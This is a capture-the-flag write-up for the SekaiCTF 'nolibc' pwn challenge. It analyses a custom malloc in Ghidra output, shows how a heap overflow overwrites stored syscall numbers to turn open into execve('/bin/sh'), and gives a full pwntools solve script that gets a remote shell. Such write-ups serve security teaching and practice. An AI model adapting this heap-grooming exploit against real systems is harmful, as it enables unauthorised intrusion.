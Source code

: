 # sekai ctf
## nolibc
### hint
```
No libc means no vulnerability right?!  
  
Author: Marc  
```
The challenge comes with a binary, and is exploited through a netcat connection
### premise
The challenge is a string data base app: you can register an account, log in, add and delete strings, save the strings to a file, and read the strings in from a file. However, instead of being linked to libc, all the functions are implemented ad-hoc: There are implementations for getch, malloc, free, open, close, puts, and so on.
### interesting parts
The first thing I poked around was how all the IO operations worked. After all, theres a read file function, which could be useful getting the flag (which is stored in a file). Sadly, there is a check in there fore if the file name has "flag" in it, so thats a no go. But, something interesting I saw while reading the assembly for how it actually read the file was this:  
<img src="/resources/syscall_oddity.png"/>  
We're moving a value from RAM to do syscalls. Looking into were this value is, we find this:  
<img src="/resources/syscall_location.png"/>  
going up from this, to find what the 0s are, reveals...  
<img src="/resources/buffer_reveal.png"/>  
which gives us a good place to start looking. If we can overrun the heap, we can overwrite syscalls. To ensure this is a good plan of attack, I looked into the syscalls themselves for a good one. `open` appeared to be usable: it's used in the read/write file functionalities, and it accepts a string we control as it's first argument (%rax). It's other 2 arguments (%rsi and %rdx) were also both set to 0 by the read file function, which means it can be replaced with execve and passed `/bin/sh` to get a shell
### malloc issues
The first thing to note is how it does a lot of things in the "heap": It creates a struct for all the user data, including password, username, and the strings added to the user (up to 2047 or 0x7ff), and of course the strings themselves (and all the buffers to read in the strings). This gives us some idea to look at the malloc and free implementations, and from there we can start finding some odd behavior. Below is the ghidra output for malloc:
```c
ulong * malloc(int size) {
  uint rounded_size;
  int *next_block;
  ulong *last_block;
  ulong *curr_block;
  
  if (size != 0) {
    rounded_size = size + 0xfU & 0xfffffff0;
    last_block = (ulong *)0x0;
    for (curr_block = malloc_head; curr_block != (ulong *)0x0; curr_block = (ulong *)curr_block[1]) {
      if ((int)rounded_size <= *(int *)curr_block) {
        if ((long)(int)rounded_size + 0x10U <= (ulong)(long)*(int *)curr_block) {
          next_block = (int *)((long)curr_block + (long)(int)rounded_size + 0x10);
          *next_block = (*(int *)curr_block - rounded_size) + -0x10;
          *(ulong *)(next_block + 2) = curr_block[1];
          curr_block[1] = (ulong)next_block;
          *(uint *)curr_block = rounded_size;
        }
        if (last_block == (ulong *)0x0) {
          malloc_head = (ulong *)curr_block[1];
        }
        else {
          last_block[1] = curr_block[1];
        }
        return curr_block + 2;
      }
      last_block = curr_block;
    }
  }
  return (ulong *)0x0;
}
```
Lets break down the algorithm:
1. Round the size up to the nearest 0x10
2. Loop through the blocks past the current malloc\_head in the singly linked list of empty blocks
3. If the current blocks size is greater than or equal to the rounded size, we will return a block
4. If the current blocks size is greater than the rounded size + the malloc metadata size, then we need to create a new free block, which we do at the rounded size + 0x10. This block will have a size equal to whatever the current blocks size is, minus the data we allocated and the metadata we need. Set teh size of this block to the rounded size (so we won't do this again if we allocate teh same size and this block is free)
5. Remove the block from the empty block list
6. Return the original block whose size was greater or equal to teh size we wanted to allocate

The problem with this algorithm is that it assumes the only time the rounded size will be equal to the current block size but the rounded size plus the metadata size will be greater than it is if the block has already been used, or if there isn't enough space to make another block. However, if malloc\_head is at the end of the malloc buffer, then the size of it will be 0x10: the size of the block includes metadata, so we can make an allocation 0x10 bytes long and edit past the buffer when creating a string. We know it is possible to fill the malloc buffer: we can wreite 0x7ff strings, each of length 0x100, which is *much* greater than the maximum of 0x10000 that we are given.  

From the previous section, we know this means that we can override syscalls, and open file specifically, which means its time to start writing an exploit.
### the exploit
I drew an explanatory graphic below to describe the final exploit:
```
Goal: Allocate so that the last meta has size 0x10
lets say our malloc buffer looks like

 0x08 0x10 0x18 0x20 0x28 0x30 0x38 0x40 RD   WR   OP
--------------------------------------------------------
|0x40| 0x0|????|????|????|????|????|????| 0x0| 0x1| 0x2|
--------------------------------------------------------

Then allocate 0x20 bytes (0x30 total, including meta)
 0x08 0x10 0x18 0x20 0x28 0x30 0x38 0x40 RD   WR   OP
--------------------------------------------------------
|0x20|0x18|0x41|0x41|0x41|0x41|0x10| 0x0| 0x0| 0x1| 0x2|
--------------------------------------------------------

Then allocate 0x0F bytes (0x1F total, including meta)
This will overwrite the syscalls. So, we make our string `0x00 0x01 0x3b` to overwrite the open syscall
 0x08 0x10 0x18 0x20 0x28 0x30 0x38 0x40 RD   WR   OP
--------------------------------------------------------
|0x20|0x18|0x41|0x41|0x41|0x41|0x0F| 0x0| 0x0| 0x1|0x3b|
--------------------------------------------------------
```
This seems like it will work, but there's one issue: the read file function needs to allocate 0x7fff to work! Luckily, there's a delete string function. I had issues with this just running through in order, so I opted to do it backwords, which I knew would collect them into a continuous block of memory that read file could use. 

The other thing we need to do is find the size we need to allocate. That can be done through GDB, simply run up to the starting point of the heap filling and print the current heap size. This is harder than it sounds because the binary has no debug symbols and is ASLR, and is where I spent a lot of time, but it can be done by disassembling whatever function you're in and comparing it to Ghidra disassembly until you find malloc, and from there getting malloc\_head and it's pointer (or, really, whatever size past malloc\_head that's smallest and has a next pointer of 0).

With that, all the issues from running the exploit are done, so here's the final solve script:
```py
from pwn import *

r = remote("nolibc.chals.sekai.team", 1337, ssl=True)

def clean():
    print(r.recvuntil(b"Choose an option:"));

def get_malloced(str):

    rounded_size = (len(str) + 0xf) & 0xfffffff0
    return rounded_size + 0x10

total_size = 0x0000bf80

r.sendline(b"2")
r.sendline(b"asd")
r.sendline(b"asd")

r.sendline(b"1")
r.sendline(b"asd")
r.sendline(b"asd")
print(r.recvuntil(b"asd!"))

clean()

for i in range(0, total_size - 0x10 - 0x110, 0x110):
    r.sendline(b"1")
    r.sendline(b"255")
    r.sendline(b"a" * 255)
    print(i, hex(total_size - i))
    clean()

rem = ((total_size-0x10) % 0x110) - 0x20
print(rem)

r.sendline(b"1")
r.sendline(str(rem).encode())
r.sendline(b"a" * rem)
clean()

total = 180

r.sendline(b"1")
r.sendline(b"15")
r.sendline(p32(0x0) + p32(0x1) + p32(0x3b) + p32(0x3)[:3])
clean()

for i in range(total, 0, -1):
    r.sendline(b"2")
    r.sendline(str(i).encode())
    clean()

print(rem)
r.interactive()
```